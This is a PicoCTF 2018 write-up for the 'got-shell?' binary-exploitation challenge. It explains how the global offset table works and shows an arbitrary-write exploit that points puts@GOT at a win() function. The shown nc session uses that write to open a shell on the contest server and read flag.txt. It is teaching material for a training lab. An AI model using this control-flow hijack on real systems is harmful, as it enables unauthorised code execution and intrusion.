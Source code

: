 ```yaml
---
title:  PicoCTF 2018 - got-shell?
description: You're only 4 bytes away from pwn - assuming you can put them in the right spot.
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - got-shell?

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}).

## Spot the Bug

This is one of those problems that isn't a "bug" so much as an [intentional learning opportunity]({% link _reference/hacking-101/picoctf-2018-binary-exploits/shellcode.md %}).

```c
void win() {
  system("/bin/sh");
}

// ...
puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");
scanf("%x", &address);

sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
puts(buf);
scanf("%x", &value);

sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
puts(buf);
*(unsigned int *)address = value;
```

In essence, the program is asking you to stomp on any 4 bytes you'd like in memory.

## Strategy

This problem gives us a *very* simple arbitrary memory write exploit. Obviously, given the existence of the `win()` function, we should use that memory write to somehow call `win()`.

The secret to this problem is understanding the role of the "`.got.plt`" section of a binary. The intricacies of how the dynamic linker resolves symbols are probably best left to the experts. If you're interested in this kind of thing, then I highly recommend the following youtube video about the topic:

<div class="embed-responsive embed-responsive-16by9">
<iframe width="560" height="315" style="display: block; margin: 0 auto;" src="https://www.youtube-nocookie.com/embed/dOfucXtyEsU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>

Once we understand the role of the "`.got.plt`" segment, it will become clear how an arbitrary 4 byte memory write will help us execute the `win()` function. If you already know - the try the challenge now by running  `nc 2018shell.picoctf.com 3582`.

## Background Info

In a nutshell, when we link against libc we don't know ahead of time exactly where it will be in memory. This is particularly true if libc is compiled with PIE, and ASLR is turned on, but in general it is true because we expect libc to be mostly cross-compatible, and your binary may be running against a significantly newer version of libc than what the compiler had access to when it created the binary. We say that the binary is dynamically-linked against libc. The binary contains a list of dynamic symbols that it must "look-up" if/when it needs them. If we need `stdin` or `stdout`, for instance, then those symbols are located in `libc`. If we need the `puts` function, then the address we need to call is also inside `libc`. Sometimes the symbols will be looked up by `ld-linux.so`, which is the dynamic linker/loader used by linux systems when the executable first starts. Other times, the compiler will put in a small shim that will wait to resolve the symbol until the first time it is required (so-called lazy binding).

Generally the addresses of these dynamic symbols will end up in one of two sections in memory: either the "`.got`" data section (typically used for the address of global variables), or the "`.got.plt`", which is in data memory (not code, so not in an executable segment) that contains the address of functions. The compiler also emits small "thunks" for every function with dynamic linkage. These "thunks" are small bits of code (in an executable segment) that essentially "jump" to a corresponding address inside the "`.got.plt`" table (when lazy-binding is involved they also do a little bit more). When you call `puts` from code, you actually call a small "thunk" inside your program that loads the address for the `puts` symbol from the "`.got.plt`" table and then jumps to it.

Unless extreme measures are taken (so called "FULL-RELRO"), the "`.got.plt`" table is writeable (this is required if lazy-binding is to be used). If we over-write data inside the `.got.plt` table, then the next time the "thunk" is called, it will actually jump to whatever address we desire. We'll use this to call the `win()` function and grab the flag.

## Exploitation

First up, let's figure out the address of `win()`.

```
$ objdump -t ./auth | grep win
0804854b g     F .text  00000019              win
```
{:.contains-term}

Next, we need to figure out a dynamicly linked function that is called AFTER the memory stomp that we can override with our own function.

```c
*(unsigned int *)address = value;

puts("Okay, exiting now...\n");
exit(1);
```

In this case, either `puts` or `exit` should work - lets use `puts`. Now, what is the address for the `puts` symbol inside of the "`.got.plt`" segment?

```
$ readelf -r ./auth | grep puts
0804a00c  00000107 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
```
{:.contains-term}

In this case, the answer is `0x0804a00c`, which is where we want to write our new function pointer to `win()`, which is at `0x0804854b`.

Lets, try it out by connecting to `nc 2018shell.picoctf.com 3582`:

```
$ nc 2018shell.picoctf.com 3582
I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
0x0804a00c
Okay, now what value would you like to write to 0x804a00c
0x0804854b
Okay, writing 0x804854b to 0x804a00c
ls
auth
auth.c
flag.txt
xinet_startup.sh
cat flag.txt
picoCTF{===REDACTED===}
```

Awesome! Now that we know more about the "`.got`", let's head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) and tackle the next challenge.